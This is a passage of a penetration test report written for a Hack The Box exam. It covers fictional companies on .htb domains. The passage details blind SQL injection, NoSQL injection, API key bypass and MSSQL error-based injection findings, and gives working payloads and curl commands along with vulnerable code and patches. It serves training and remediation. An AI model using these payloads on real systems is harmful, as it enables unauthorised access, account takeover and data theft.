# Report {#report}

## Table of Contents {#table-of-contents}

* [Report](#report)
    * [Table of Contents](#table-of-contents)
    * [Meta](#meta)
    * [Executive Summary](#executive-summary)
    * [Scope](#scope)
    * [Web Application Security Assessment Summary](#web-application-security-assessment-summary)
    * [Findings](#findings)
        * [RoyalFlush - Blind SQL Injection in Password Reset Functionality](#4480299e-7dec-4ef3-94ce-e0c8cd081656)
        * [RoyalFlush - NoSQL Injection in Email Verification Leading to Staff Account Creation](#23932c85-dfc1-4fc1-ba83-f2768bedaade)
        * [RoyalFlush - API Key Authentication Bypass Leading to Privilege Escalation](#94537e72-9889-409f-8a49-a485170ff7bb)
        * [RoyalFlush - SQL Injection in Secondary Email Update](#4cb36112-a85b-466a-93be-e4624ca6211b)
        * [RoyalFlush - Insecure Deserialization Leading to Remote Code Execution](#cc59c064-41d8-493c-b1f8-6687f77c9195)
        * [RoyalFlush - Hardcoded Credentials in Source Code Repository](#1164c285-502e-4806-8cad-a89d34950f67)
        * [SecureData - Stored Cross-Site Scripting (XSS) via Log Poisoning](#9649bc09-b976-4cb8-8c94-ec6ecea8204e)
        * [SecureData - XPath Injection in File Search Functionality](#8fb8a524-1003-40ab-9325-b42f03a8e9cf)
        * [SecureData - OS Command Injection in Service Status API Endpoint](#227c4e36-2836-4d1f-ac00-d1fe6b010352)
        * [VitaMedix - Server-Side JavaScript Injection via eval()](#5817ed19-e137-4c44-985b-bcc5cab13274)
        * [VitaMedix - SMTP Header Injection in Password Reset Functionality](#28dc6a62-8834-439d-b031-9d9cdc65126c)
        * [VitaMedix - Second-Order IDOR via Session Variable Manipulation](#d4dee736-a418-498b-aa46-93545715d3af)
        * [VitaMedix - Hardcoded Credentials in Source Code Repository](#51bf4a0e-fd91-4566-a578-af6133217761)
    * [Appendix](#appendix)
        * [Finding Severities](#finding-severities)
        * [Flags Discovered](#flags-discovered)
        * [Exploits](#exploits)

## Meta {#meta}

### HTB Logo


### Report Date

2025-12-14

### HTB Candidate

**Full Name**

Sebastian Forsmark

**Title**

Penetration Tester

**Email**

sebastian.forsmark@redpen.se


### Engagement Contacts

| Company Contacts      |                         |                                                     |
| --------------------- | ----------------------- | --------------------------------------------------- |
| **Primary Contact**   | **Title**               | **Primary Contact Email**                           |
| Yelon Husk            | Chief Executive Officer | [yelon@royalflush.htb](mailto:yelon@royalflush.htb) |
| **Secondary Contact** | **Title**               | **Secondary Contact Email**                         |
| Zeyad AlMadani        | Chief Technical Officer | [zeyad@securedata.htb](mailto:zeyad@securedata.htb) |

| Assessor Contact  |            |                            |
| ----------------- | ---------- | -------------------------- |
| **Assessor Name** | **Title**  | **Assessor Contact Email** |
| Sebastian Forsmark |Penetration Tester| sebastian.forsmark@redpen.se|


### Statement of Confidentiality

The contents of this document have been developed by Hack The Box. Hack The Box considers the contents of this document to be proprietary and business confidential information. This information is to be used only in the performance of its intended use. This document may not be released to another vendor, business partner or contractor without prior written consent from Hack The Box. Additionally, no portion of this document may be communicated, reproduced, copied or distributed without the prior consent of Hack The Box.

The contents of this document do not constitute legal advice. Hack The Box's offer of services that relate to compliance, litigation or other legal interests are not intended as legal counsel and should not be taken as such. The assessment detailed herein is against a fictional company for training and examination purposes, and the vulnerabilities in no way affect Hack The Box external or internal infrastructure.


## Executive Summary {#executive-summary}

Royal Flush Ltd. ("RoyalFlush" herein), Secure Data Ltd. ("SecureData" herein), and Vita Medix Ltd. ("VitaMedix" herein) have invited Sebastian Forsmark ("The tester" herein) to perform a targeted Web Application Penetration Test of their web applications to identify high-risk security weaknesses, assess their impact, document all findings in a clear, professional, and repeatable manner, and provide remediation recommendations.

All web-related findings were considered in-scope, as long as they can be proven harmful to the client with a Medium-High impact. The following types of activities were considered out-of-scope for this test:

* Physical attacks against the clients' properties
* Unverified scanner output
* Any vulnerabilities identified through DDoS or spam attacks
* Vulnerabilities in third-party libraries unless they can be leveraged to impact the target significantly
* Any theoretical attacks or attacks that require significant user interaction or are considered low-risk


## Approach

The tester performed the evaluation under a mixture of "blackbox" and a "whitebox" approach from the 5th of December 2025  to 14th of December 2025, as follows:

* `RoyalFlush` A whitebox penetration test was carried against their targets, with access to their web applications' source code on `http://git.royalflush.htb/`.
* `SecureData` A blackbox penetration test was performed, with no further advance details or access to their web applications. Some application code was accessed and analyzed via vulnerabilities found.
* `VitaMedix` A mixture of blackbox and whitebox was carried against all web applications under their sub-domains. 

Testing was performed remotely from a non-evasive standpoint, with the goal of uncovering as many misconfigurations and vulnerabilities as possible. Each weakness identified was documented and manually investigated to determine exploitation possibilities and escalation potential.

The tester sought to demonstrate the full impact of every vulnerability, up to and including internal network access. Furthermore, the tester has also documented the sources of vulnerabilities that were identified through source code analysis, and provided recommended patches to fix them.


## Scope {#scope}

The scope of this assessment was as follows:

| **URL**              | **Description**             |
| -------------------- | --------------------------- |
| www.royalflush.htb   | Main RoyalFlush website     |
| git.royalflush.htb   | RoyalFlush Git Repositories |
| forum.royalflush.htb | RoyalFlush Forums           |
| vault.royalflush.htb | RoyalFlush Secure Vault     |
| \*.securedata.htb    | SecureData web app(s)       |
| \*.vitamedix.htb     | VitaMedix web app(s)        |


## Web Application Security Assessment Summary {#web-application-security-assessment-summary}

### Summary of Findings

During the course of testing, the tester uncovered a total of **13** of findings that pose a material risk to clients' web applications and systems. The below table provides a summary of the findings by severity level.

| Finding Severity |            |         |           |
| ---------------- | ---------- | ------- | --------- |
| **Critical**     | **High** | **Medium** | **Total** |
| **3**            | **10**      | **0**   | **13**     |

Below is a high-level overview of each finding identified during the course of testing. These findings are covered in depth in the [Technical Findings Details](#technical-findings-details) section of this report.

| Finding # | Severity Level | Finding Name |
|-----------|----------------|--------------|
| 1 | **Critical** | *Blind SQL Injection in Password Reset Functionality (RoyalFlush)* |
| 2 | **Critical** | *OS Command Injection in Service Status API Endpoint (SecureData)* |
| 3 | **Critical** | *Server-Side JavaScript Injection via eval() (VitaMedix)* |
| 4 | **High** | *NoSQL Injection in Email Verification Leading to Staff Account Creation (RoyalFlush)* |
| 5 | **High** | *API Key Authentication Bypass Leading to Privilege Escalation (RoyalFlush)* |
| 6 | **High** | *SQL Injection in Secondary Email Update (RoyalFlush)* |
| 7 | **High** | *Insecure Deserialization Leading to Remote Code Execution (RoyalFlush)* |
| 8 | **High** | *Hardcoded Credentials in Source Code Repository (RoyalFlush)* |
| 9 | **High** | *Stored Cross-Site Scripting (XSS) via Log Poisoning (SecureData)* |
| 10 | **High** | *XPath Injection in File Search Functionality (SecureData)* |
| 11 | **High** | *SMTP Header Injection in Password Reset Functionality (VitaMedix)* |
| 12 | **High** | *Second-Order IDOR via Session Variable Manipulation (VitaMedix)* |
| 13 | **High** | *Hardcoded Credentials in Source Code Repository (VitaMedix)* |


### Assessment Overview and Recomendations


### RoyalFlush

**Blind SQL Injection in Password Reset Functionality (Critical):** User input in the email parameter is concatenated directly into SQL queries, enabling attackers to extract password reset tokens and achieve account takeover of any user. Replace string-concatenated queries with parameterized queries using tuple parameters.

**NoSQL Injection in Email Verification (High):** The token parameter is interpolated into a MongoDB `$where` query, allowing attackers to bypass email verification and create staff accounts without email ownership. Replace the `$where` operator with standard MongoDB query operators and cast all input to strings.

**API Key Authentication Bypass (High):** Substring matching for API key validation allows bypass by embedding "key=" within unrelated parameter values, enabling unauthenticated privilege escalation to administrator. Rewrite authentication to extract parameters properly and default to denial unless valid credentials are proven.

**SQL Injection in Secondary Email Update (High):** User input is concatenated into SQL queries via `string.Format()`, enabling file reads via `OPENROWSET` and database extraction through error-based techniques. Use parameterized queries with `SqlCommand.Parameters.AddWithValue()` and validate email format server-side.

**Insecure Deserialization (High):** The deprecated `BinaryFormatter` class deserializes user-controlled encrypted data, enabling remote code execution via gadget chains when combined with extracted encryption keys. Remove `BinaryFormatter` entirely and encrypt/decrypt raw bytes directly without serialization.

**Hardcoded Credentials in Source Code Repository (High):** Authentication secrets and database credentials committed to Git enable token forgery and direct database access. Rotate all exposed secrets immediately and implement secrets management with pre-commit scanning.

### SecureData

**OS Command Injection in Service Status API Endpoint (Critical):** The service parameter is passed directly to system commands without sanitization, allowing remote code execution when chained with XSS to bypass IP-based access restrictions. Implement strict allowlist validation for service names and avoid passing user input to shell commands.

**Stored Cross-Site Scripting via Log Poisoning (High):** User-controlled HTTP headers are logged without sanitization and rendered using `innerHTML` in the admin panel, enabling admin session hijacking. URL-encode all user input before logging and use `textContent` instead of `innerHTML` when rendering log data.

**XPath Injection in File Search Functionality (High):** User input is concatenated directly into XPath queries, allowing extraction of restricted files and their download tokens. Validate search input against an allowlist of permitted characters and implement server-side authorization checks for all file downloads.

### VitaMedix

**Server-Side JavaScript Injection via eval() (Critical):** User input in the greeting parameter is passed directly to `eval()`, and validation occurs inside the eval call itself, enabling arbitrary code execution before checks complete. Remove `eval()` entirely and replace with safe alternatives such as regex-based validation.

**SMTP Header Injection in Password Reset Functionality (High):** CRLF characters in the email parameter allow injection of arbitrary SMTP headers including BCC, enabling attackers to intercept password reset emails for any user. Reject or encode CRLF characters in email input and verify library built-in protections are enabled.

**Second-Order IDOR via Session Variable Manipulation (High):** Session variables storing file IDs are set before authorization checks complete, allowing attackers to access other users' files by not following error redirects. Set session variables only after authorization checks pass and re-validate permissions at the point of data access.

**Hardcoded Credentials in Source Code Repository (High):** MySQL, CouchDB, and PiHole credentials stored in source code provide unauthorized access to backend systems and applications. Rotate all exposed credentials and load them from environment variables instead of source files.


## Findings {#findings}

### RoyalFlush - Blind SQL Injection in Password Reset Functionality {#4480299e-7dec-4ef3-94ce-e0c8cd081656}

#### CWE

CWE-89

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:H/SI:H/SA:N (9.3 - Critical)

#### Affected Component(s)

* Royalflush.htb  - `/forgot` endpoint

#### External References

* https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

#### Description & Cause

The password reset functionality in the `www-royalflush` application is vulnerable to time-based blind SQL injection. User-supplied input in the `email` parameter is concatenated directly into a SQL query using Python string formatting, allowing an attacker to inject  SQL commands. Although an `@anti_sqli` decorator is present, it can be bypassed using carefully crafted payloads that avoid the specific regex patterns it checks for.


#### Security Impact

An attacker can exploit this vulnerability to read the entire contents of the `royalflush` PostgreSQL database, including usernames, email addresses, and password reset tokens. While write operations were not possible, the read access is sufficient to enable full account takeover of any user. By triggering a legitimate password reset for a target user and then extracting the reset token from the `forgot` table, an attacker can hijack any account in the application, including administrator accounts.


#### Detailed Walkthrough

This vulnerability is a time-based blind SQL injection. In a blind SQL injection, the application does not return query results or database errors to the attacker, so traditional techniques like UNION-based extraction cannot be used. Instead, the attacker must infer information by observing differences in application behavior.

In time-based blind SQL injection, the attacker injects SQL commands that cause the database to pause execution for a specified duration when a condition is true. By measuring response times, the attacker can ask true/false questions about the database contents and extract data one bit at a time.

For this attack it was achieved using the `pg_sleep()` function within a `CASE WHEN` construct in the email field.

```sql
' OR (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END) IS NULL--
```

{width="auto"}

If the condition evaluates to true, the database sleeps for a set duration before responding. If false, it responds immediately. By iterating through possible values and observing which cause delays, an attacker can extract arbitrary data from the database character-by-character.

Although an `@anti_sqli` decorator is present on this endpoint, it only checks for specific regex patterns commonly associated with SQLMap and basic injection attempts. The time-based payload structure used here does not match these patterns and bypasses the filter entirely.

To exploit this vulnerability, the tester:

1. Confirmed the injection point by submitting a payload with `pg_sleep()` in the email field and observing a delayed response.
2. Extracted data from the database by iterating through characters and checking response times. For example, testing if the first character of an email is `a`, then `b`, and so on until a delay is observed.
3. Use the extracted information to further compromise the application. In the proof-of-concept below, the attacker extracts a registered user's reset token from the `forgot` table to achieve account takeover.

 [BlindSQLIForgot.py](exploits/BlindSQLIForgot.py)

## Steps to Reproduce

**Step 1: Confirm the injection point**

Submit a payload containing `pg_sleep()` in the email field and observe the response time:

```
' OR (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END) IS NULL--
```

The server responds after approximately 6 seconds, confirming the blind SQL injection vulnerability.

**Step 2: Submit a password reset request**

Submit a password reset request for an existing user by visiting the password reset page. An example user is lbrown@hotmail.com. This will populate the `forgot` table with a reset token.

**Step 3: Automate extraction**

```bash
python3 BlindSQLIForgot.py
```

This script can be modified to extract any information from the database.

#### Code Analysis

The vulnerability was found when reviewing __init__.py and discovering the cursor.execute() command below which contains the dangerous query concatenation:

**File: `__init__.py` (Lines 101-105)**
```python
        if email != None and email != "":
            with db.connect() as conn:
                cursor = conn.cursor()
                cursor.execute("SELECT user_id FROM users WHERE email = '%s'" % (email,)) #Input is concatenated directly into query
                row = cursor.fetchone()
```
The \`%\` operator performs Python string formatting before the query reaches the database, allowing user input to modify the query structure.


#### Patching and Remediation

The primary remediation is to replace the vulnerable string-formatted query with a parameterized query as shown below. Parameterized queries ensure the database driver properly distinguishes between code and data, making SQL injection impossible regardless of user input.

```python
if email != None and email != "":
    with db.connect() as conn:
        cursor = conn.cursor()
        cursor.execute("SELECT user_id FROM users WHERE email = %s", (email,)) #Safe
        row = cursor.fetchone()
        // ... remainder unchanged
```
The fix removes the string formatting operator and instead passes \`email\` as a separate tuple argument to \`cursor.execute()\`. This ensures the database driver treats the input as data rather than SQL syntax.

Additionally, input validation should be implemented on the email field. Since this parameter is expected to be an email address, the application should validate that it matches the expected format before using it in any database query. This provides an additional layer of defense and reduces the attack surface.

While the `@anti_sqli` decorator provides some protection, it should not be relied upon as a primary defense. Pattern-based blocklists are inherently bypassable, as demonstrated by the time-based payload used in this attack which evaded detection entirely. Input validation and parameterized queries together form a robust defense against SQL injection.


### RoyalFlush - NoSQL Injection in Email Verification Leading to Staff Account Creation {#23932c85-dfc1-4fc1-ba83-f2768bedaade}

#### CWE

CWE-943

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N (8.7 - High)

#### Affected Component(s)

* Forum.RoyalFlush.htb - `/verify-email` endpoint

#### External References

* https://cheatsheetseries.owasp.org/cheatsheets/NoSQL_Security_Cheat_Sheet.html

#### Description & Cause

A NoSQL injection vulnerability exists in the email verification endpoint of the RoyalFlush Forum application. The `token` parameter is directly interpolated into a MongoDB `$where` JavaScript query without sanitization, allowing an attacker to bypass token validation. When combined with an insecure check that determines staff privileges based solely on email domain, an attacker can create and verify accounts with `@royalflush.htb` email addresses, granting unauthorized staff access without requiring actual ownership of the email address.

#### Security Impact

The NoSQL injection vulnerability, when combined with the application's use of email domain for staff validation, allows an unauthenticated attacker to create accounts with arbitrary `@royalflush.htb` email addresses and bypass the email verification process entirely. Since the application grants staff privileges to any verified user whose email address ends with the internal domain, the attacker effectively gains elevated privileges within the forum. This would enable access to any staff-only features, which during the test meant the ability to read sensitive staff-only discussions which contained credentials for a user account on the Vault application. The attack requires no prior authentication and can be performed entirely remotely.

#### Detailed Walkthrough

NoSQL injection is a class of vulnerability that occurs when user-supplied input is incorporated into NoSQL database queries without proper sanitization. In MongoDB, the `$where` operator allows execution of arbitrary JavaScript code on the server to evaluate query conditions. When user input is concatenated directly into the JavaScript string passed to `$where`, an attacker can inject malicious JavaScript expressions that alter the query logic—typically to bypass authentication or authorization checks.

In this case, the email verification function constructs a `$where` clause using `sprintf`, directly embedding the user-supplied `token` parameter into a JavaScript comparison. By injecting a payload such as `' || '1'=='1`, an attacker causes the JavaScript expression to evaluate as true regardless of whether the token matches any stored verification token.

This allowed the tester to create a malicious staff account, have it validated, and then access the internal forum to retrieve sensitive information.

A script is included which automates this process: [ForumAuthBypass.py](exploits/ForumAuthBypass.py)

## Steps to Reproduce

**Step 1: Register with a staff domain email**

Navigate to `/create-account`, and submit a registration request using the internal staff domain:

```
evilAdmin@royalflush.htb
```

This email is not accessible to the attacker but will grant staff privileges once verified.

**Step 2: Bypass email verification via NoSQL injection**

Submit a request to `/verify-email` with the registered email and the following NoSQL injection payload as the token parameter:

```bash
curl -k "https://forum.royalflush.htb/verify-email?email=evilAdmin%40royalflush.htb&token=%27%20%7C%7C%20%271%27%3D%3D%271"
```

The application returns a success message indicating the email was verified, despite never receiving or clicking a legitimate verification link.

**Step 3: Access staff-only sections**

Log in with the newly created and verified account. The attacker now has access to internal staff areas of the forum.

{width="auto"}

{width="auto"}

**Step 4: Automate the attack**

```bash
python3 ForumAuthBypass.py
```

#### Code Analysis

**File:** `app/Http/Controllers/AuthController.php` (lines 96-107)
```php
    public function showVerifyEmail(Request $request)
    {
        if ($request->has('token') && $request->has('email')) {
            $token = $request->input('token');
            $email = $request->input('email');
            
            $user = User::where('email', '=', $email)->first();

            if ($user) {
                // VULNERABLE: User-controlled $token is interpolated directly into JavaScript expression
                $where = sprintf("return this.token == '%s' && this.userId == '%s'", $token, $user['id']);
                $verificationTokens_collection = DB::connection('mongodb')->getCollection('verificationTokens');
                // VULNERABLE: $where operator evaluates the JavaScript string, enabling injection
                $verificationToken = $verificationTokens_collection->findOne(['$where' => $where]);
```

#### Patching and Remediation

The root cause of the NoSQL injection is the use of the `$where` operator with string interpolation.  `$where` should only be used if it is impossible to express a query any other way. In this case, the query can easily be rewritten using standard MongoDB query operators, which do not interpret user input as executable code. The verification logic should use a standard equality query that matches both the token and user ID as document fields. User input should also be explicitly cast to strings to prevent type manipulation attacks.

**File:** `app/Http/Controllers/AuthController.php`
```php
public function showVerifyEmail(Request $request)
{
    if ($request->has('token') && $request->has('email')) {
        $token = strval($request->input('token')); //Cast input to string
        $email = strval($request->input('email')); //Cast input to string 
        
        $user = User::where('email', '=', $email)->first();

        if ($user) {
            $verificationTokens_collection = DB::connection('mongodb')->getCollection('verificationTokens');
            $verificationToken = $verificationTokens_collection->findOne([ 
                'token' => $token, 
                'userId' => $user['id']
            ]);
            // ... remainder unchanged
            if ($verificationToken) {     
            
```


As a defense-in-depth measure, if the application does not require server-side JavaScript evaluation anywhere, it should be disabled entirely at the MongoDB configuration level by setting `security.javascriptEnabled: false` in the MongoDB configuration file or by starting the server with `--noscripting`.

Additionally, the staff authorization mechanism should not rely on email domain alone. Email addresses can be spoofed during registration, and even with proper verification, domain-based authorization assumes that anyone with access to a particular email domain should have elevated privileges. A more robust approach would be to assign roles explicitly in the database through an administrative process, or to implement an invitation-based system for staff accounts that requires existing administrator approval.


### RoyalFlush - API Key Authentication Bypass Leading to Privilege Escalation {#94537e72-9889-409f-8a49-a485170ff7bb}

#### CWE

CWE-287

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:L/SC:N/SI:N/SA:N (8.7 - High)

#### Affected Component(s)

* RoyalFlush - API endpoints protected by api_key_required

#### External References


#### Description & Cause

The `api_key_required` decorator uses substring matching against the raw query string rather than proper parameter extraction to verify the presence of an API key. This allows an attacker to bypass authentication by including the substring `key=` as part of an unrelated parameter's value, enabling unauthenticated access to privileged API endpoints including role modification and password changes. Additionally, the `/api/changeUserPassword` endpoint uses MD5 hashing while the login flow expects bcrypt, which during the test was noticed as causing a 500 server error due to a hash format mismatch that prevents login even if the new password is known.

#### Security Impact

An unauthenticated attacker can escalate their privileges to administrator by invoking the \`/api/changeUserRole\` endpoint without possessing a valid API key. This grants full administrative access to the application, including the ability to view the admin panel and its sensitive contents. The attacker can also modify the roles of other users, potentially locking out legitimate administrators or elevating other malicious accounts. Furthermore, the unprotected \`/api/changeUserPassword\` endpoint enables denial-of-service attacks against any user account. Since user IDs are sequential and predictable, an attacker can iterate through IDs and change passwords for arbitrary accounts, locking out users who will no longer know their credentials. Affected users must complete the password reset flow to regain access.


#### Detailed Walkthrough

Authentication bypass vulnerabilities occur when the logic responsible for verifying a user's identity or authorization contains flaws that allow the checks to be circumvented. In this case, the flaw exists in how the application determines whether an API key parameter is present in the request.

The `api_key_required` decorator performs three sequential checks:

1. **Substring presence check**: Verifies that the literal string `key=` exists somewhere in the raw query string
2. **Empty value check**: Rejects the request if the `key` parameter is an empty string
3. **Value validation check**: Rejects the request if `key` is existing but does not match the expected secret

The critical flaw is in step 1. By checking `'key=' not in request.query_string.decode()`, the decorator only verifies that the substring `key=` appears anywhere in the query string—not that a parameter named `key` actually exists. An attacker can satisfy this check by embedding `key=` within the value of a different parameter.

When the substring check passes but no actual `key` parameter exists, `request.args.get('key')` returns `None`. The third check (`if api_key and api_key != os.getenv('API_SECRET')`) then evaluates to `False` because `api_key` is `None` (falsy), allowing the request to proceed to the protected endpoint.


## Steps to Reproduce

**Step 1: Identify target user ID**

Obtain the target user's ID (e.g., `1` for the first registered user). This can be retrieved via the SQL injection vulnerability documented elsewhere.

**Step 2: Craft the role change request**

Send a request to `/api/changeUserRole` with `user_id` and `role_id` parameters, and include `key=` as part of a dummy parameter's value to bypass authentication:

```bash
curl -k "https://royalflush.htb/api/changeUserRole?user_id=1&role_id=2&dummy=key="
```

{width="auto"}

The role change is applied without valid authentication.

**Step 3: Confirm privilege escalation**

Log in as the affected user and navigate to `/admin` to confirm administrative access.

{width="auto"}


#### Code Analysis

**File: `__init__.py` (Lines 36-47)**
```python
def api_key_required(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        if 'key=' not in request.query_string.decode(): #Vulnerable: key= present anywhere passes validation.
            return "Forbidden: Missing API key (parameter 'key')", 403
        api_key = request.args.get('key')
        if api_key == "":
            return "Forbidden: Empty API key", 403
        if api_key and api_key != os.getenv('API_SECRET'): #Vulnerable: Does not resolve as True if api_key is set to None.
            return "Forbidden: Incorrect API key", 403
        return f(*args, **kwargs)
    return decorator
```

#### Patching and Remediation

The core design flaw in this code is that it **defaults to success rather than defaulting to failure**. The current logic only rejects requests when a key is present and incorrect; when the key is absent (i.e., `None`), the request is allowed to proceed. Secure authentication checks should instead require proof of valid credentials before allowing execution, not merely reject known-bad credentials.

The authentication check should extract and validate the `key` parameter directly rather than relying on substring matching against the raw query string. Using `request.args.get('key')` from the outset ensures the application is checking for an actual parameter rather than an arbitrary substring.

**File: `__init__.py` 
```python
def api_key_required(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        api_key = request.args.get('key')
        if api_key and api_key == os.getenv('API_SECRET'): #Only proceed if the key is set and valid
            return f(*args, **kwargs)
        return "Forbidden: Invalid or missing API key", 403 #Default to forbidden unless previously proven authorized
    return decorator
```

The conditional logic must be restructured so that the only path to the protected endpoint is through a positive match; the key must exist and equal the expected secret. All other cases should fall through to rejection. This ensures that no request reaches the protected endpoint without first proving it possesses valid authentication. The pattern `if api_key and api_key != secret` is a common anti-pattern in authentication logic because it conflates "missing" with "acceptable," allowing `None` values to bypass validation entirely.


### RoyalFlush - SQL Injection in Secondary Email Update {#4cb36112-a85b-466a-93be-e4624ca6211b}

#### CWE

CWE-89

#### CVSS 4.0

CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N (8.7 - High)

#### Affected Component(s)

* Vault.RoyalFlush.htb -  POST endpoint `/My/SecondaryEmail` 

#### External References

* https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

#### Description & Cause

The secondary email update functionality in the Vault application is vulnerable to error-based SQL injection. User-supplied input in the `secondaryEmail` parameter is concatenated directly into an SQL query using `string.Format()`, allowing an authenticated attacker to execute arbitrary SQL statements against the underlying Microsoft SQL Server database.

#### Security Impact

An authenticated attacker can exploit this vulnerability to read sensitive files from the server's filesystem using MSSQL's `OPENROWSET(BULK...)` function. During testing, the `Web.config` file was successfully exfiltrated, which contained sensitive application configuration data including database connection strings and cryptographic keys. The attacker could also enumerate and extract data from the entire database accessible to the application's database user. Additionally, write operations were confirmed possible via stacked queries, allowing an attacker to modify database records such as user passwords. Command execution via `xp_cmdshell` was attempted but not achieved, likely due to the procedure being disabled or restricted.

#### Detailed Walkthrough

SQL injection occurs when user-controlled input is incorporated into SQL queries without proper sanitization or parameterization. When applications construct queries by concatenating strings, an attacker can inject SQL syntax that alters the query's logic. Error-based SQL injection is a technique where the attacker deliberately causes database errors that leak data within error messages. In Microsoft SQL Server, this is commonly achieved by using `CAST()` to convert string data to an integer type, causing the server to display the string value in the resulting conversion error.

{width="auto"}


## Steps to Reproduce

**Step 1: Navigate to the vulnerable form**

Authenticate to the Vault application with valid credentials and navigate to the Settings page containing the secondary email form.

**Step 2: Submit the file read payload**

Submit a malicious payload to the `secondaryEmail` parameter. The payload uses SQL comment syntax (`/**/`) to bypass whitespace restrictions and `CAST()` to force the content into the error response. The payload terminates with a valid email format to pass regex validation:

```
curl -k -X POST "https://vault.royalflush.htb/My/SecondaryEmail" \
  -H "Cookie: user=<Valid authenticated token>" \
  -d "secondaryEmail=test'/**/AND/**/1=CAST((SELECT/**/DB_NAME())/**/AS/**/INT)--@a.com"
```

The server returns an error message containing the requested information.

**Step 3: Automate chunked file extraction**

Since files must be retrieved in chunks using `SUBSTRING()` offsets, a script was developed to automate this process:

[VaultSecondaryEmailSQLI.py](exploits/VaultSecondaryEmailSQLI.py)

```bash
python3 VaultSecondaryEmailSQLI.py
```

